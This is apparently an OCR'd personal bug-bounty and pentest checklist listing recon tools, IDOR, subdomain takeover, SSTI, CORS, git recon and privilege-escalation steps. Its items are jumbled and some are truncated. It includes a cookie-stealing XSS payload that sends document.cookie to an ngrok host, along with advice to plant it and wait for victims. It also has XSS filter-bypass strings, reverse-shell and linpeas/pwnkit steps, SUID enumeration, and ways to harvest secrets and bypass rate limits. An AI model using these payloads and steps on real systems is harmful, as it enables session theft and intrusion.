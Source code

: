 - [ ] use encoded versions of /../..(double url encoding and partial url encoding)
- [ ] offer unsolicited ids to the application
- [ ] look for source code (like java script or php (.js or .php))
- [ ] change request methods and try the above task
- [ ] —→ RECON ←—-
- [ ] extract all JS files
- [ ] Directory enumeration 
- [ ] ——-sub——> Subdomain enumeration ←—-sub——-
- [ ] Extract all urls 
- [ ] use 
- [ ] https://medusa0xf.medium.com/how-i-found-a-3000-idor-vulnerability-in-a-delivery-app-d15167b6f963?sk=c9546ff39b5c9a27201cda30fd401141
- [ ] create two accounts and test Idor + broken access control
- [ ] broken link hijacking 
- [ ] use Can-I-Takeover xyz for reference and the proof, if it’s not enough just go for taking over the subdomain
- [ ] use custom build web scrapers or already available tools or just do it manually
- [ ] ———> Subdomain Takeover ←——
- [ ] try injecting {{7*7}} and check for internal server errors or the results 
- [ ] use ngrok to forward the request to the 
- [ ] run an http server with python
- [ ] ngrok http 80 —> this will just forward the request to http server at 
- [ ] try privesc if you get the shell
- [ ] try analysing all binaries with root permissions
- [ ] look for a payload for webshell , google sites which give ready made payoads
- [ ] use git to check for common vulnerabilities and POC
- [ ] use exploit db to check for CVEs
- [ ] python3 -m http.server 8080 (example)
- [ ] SSTI (server side template injection)
- [ ] Check for outdated services and CVEs 
- [ ] if you get a hit, lookup for a payload for rce , use reverse shell generator (google this) to get help in generating payload
- [ ] go to the folder of interest in the local machine and serve that on the 
- [ ] XSS
- [ ] try doing sudo -ls to list all the binaries that can be run with sudo without password
- [ ] try downloading and using linpeas or winpeas or pwnkit or anything from your local machine into the pwned machine
- [ ] in the above example, the new Image tag is created in the memory and is not needed to be created in the DOM to work
- [ ] example —> <script>new Image().src = “http://<ngrok’s address>?c= ‘ + document.cookie </script>
- [ ] use the xss payload in a way that it sends data to the ngrok’s web intereface so that all that data can be forwarded to us
- [ ] put the xss in and wait for someone to interact
- [ ] find / -user root -perm -u=s -ls 2>/dev/null 
- [ ] add special characters like 0a% %20 %1c %09 %00
- [ ] use hacktricks (google it) for some payloads
- [ ] use gourlex 
- [ ] use ffuf
- [ ] use subdominator
- [ ] use subfinder 
- [ ] use virustotal 
- [ ] find 404 pages and use dig to CNAME records if there is a possibility
- [ ] use google dorking
- [ ] use dirsearch
- [ ] watch the video for one technique —> 
- [ ] also try the “-recursion” flag in ffuf , it recursively fuzzes the found directories so that we can find all the directories
- [ ] use matcher (-mc flag) to add the status codes that ffuf does not originally include
- [ ] see this video to know a better methodology —> 
- [ ] imp —> 200. 201, 300-307, 400, 405, 415, 403, 401
- [ ] recon on nginx server (if there exists one)
- [ ] closely analyze the acao (access control allow origin), acam (access control allow methods), acac(access control allow credentials) headers in the reponse after adding the origin header
- [ ]  adding the origin header 
- [ ] CORS
- [ ] check if the origin as null is accepted and reflected in the response
- [ ] check if the attackers domain as the origin is reflected in the response
- [ ] use feroxbuster tool for forced browsing to look for pages that are not linked directly but still exists
- [ ] use subjs tool to find all the js files 
- [ ] use subzy tool (it works based on matching fingerprints from can-i-takeover-xyz)
- [ ] use rustbuster tool for content discovery
- [ ] use linkfinder tool to extract the discover urls from the js files that you have extracted
- [ ] use secret finder tool to discover secrets like api keys, passwords etc from the js files
- [ ] use sites and tools for getting a headstart in recon as it is alredy done there
- [ ] use chaos on github
- [ ] use  
- [ ] sometimes while bruteforcing (in possible scenarios), there is rate limiting , to bypass that , use ip rotation by scripting 
- [ ] 2FA bypass
- [ ] payloads
- [ ] %22onmouseover=%27onfocus=%27alert(1)%27%20autofocus=%27(9824)%22
- [ ] we can read the blob file (using —> git cat-file -p <blob’s hash>) to read the commits and the files and we might get the pushed keys
- [ ] 
Even if you delete your API key from the file and push a new commit, 
- [ ] '<00 foo="<a%20href="javascript:alert('XSS-Bypass')">XSS-CLick</00>--%20/
- [ ] git recon
- [ ] check if the git folder is public by adding /.git in the root url
- [ ] create 2 accounts and compare for the requests
- [ ] use wayback machine to see the past versions of the same site.
- [ ] change the file type
- [ ] CSRF
- [ ] https://web.archive.org/web/*/
- [ ] look for software version number and configuration information by using recon
- [ ] IDOR
- [ ] check for exposed .git directories
- [ ] parameter pollution
- [ ] capture requests
- [ ] find info in public files
- [ ] response manipulation
- [ ] try to decode hashed and encrypted ids
- [ ] Information Disclosure
- [ ] paste bin
- [ ] git hub gists
- [ ] try searching for leaked ids
- [ ] use tools to automate the process (pastebin-scraper)(get the pastebin ids and then acees those files from pastebins’ site)
- [ ] use path traversal techniques to access a forbidden folder.
- [ ] to automate finding java scipt files use tools (link finder)
- [ ] try blind idors
- [ ] look for configuration files (.conf or .env or try other extensions)